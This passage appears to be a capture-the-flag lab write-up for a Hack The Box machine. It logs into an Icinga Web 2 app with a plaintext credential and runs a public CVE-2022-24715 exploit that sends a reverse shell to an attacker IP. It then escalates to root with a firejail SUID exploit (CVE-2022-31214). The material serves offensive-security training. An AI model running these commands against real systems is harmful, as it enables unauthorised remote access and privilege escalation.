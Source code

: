 We can login with `matthew : IcingaWebPassword2023` on the webapp.

## Authenticated RCE — **`CVE-2022-24715`**

We see the Version at:

- [http://icinga.cerberus.local:8080/icingaweb2/about](http://icinga.cerberus.local:8080/icingaweb2/about)

2.9.2

[https://github.com/JacobEbben/CVE-2022-24715](https://github.com/JacobEbben/CVE-2022-24715)

Vulnerable Versions: <2.8.6, <2.9.6, <2.10

Create a valid pem file

- `ssh-keygen -m pem`
- `./rce.py -t [http://icinga.cerberus.local:8080/icingaweb2/](http://icinga.cerberus.local:8080/icingaweb2/) -u matthew -p IcingaWebPassword2023 -I 10.10.14.62 -P 1234 -e /home/kali/Desktop/htb/Box/cerberus/id_rsa`

We got a shell.

uid=33(www-data) gid=33(www-data) groups=33(www-data),121(icingaweb2)

# Priv Esc

- `find / -user root -perm /4000 2>>/dev/null`

/usr/bin/firejail

## SUID firejail — `CVE-2022-31214`

> Firejail is a SUID sandbox program that reduces the risk of security breaches by restricting the running environment of untrusted applications using Linux namespaces, seccomp-bpf and Linux capabilities.
> 
- `firejail --version`

```
firejail version 0.9.68rc1
```

[oss-security - firejail: local root exploit reachable via --join logic
 (CVE-2022-31214)](https://www.openwall.com/lists/oss-security/2022/06/08/10)

We can use the [python script](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) 

- `./firejail.py`

You can now run 'firejail --join=6807' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.

Now open a new terminal, and run 

- `firejail --join=6807`
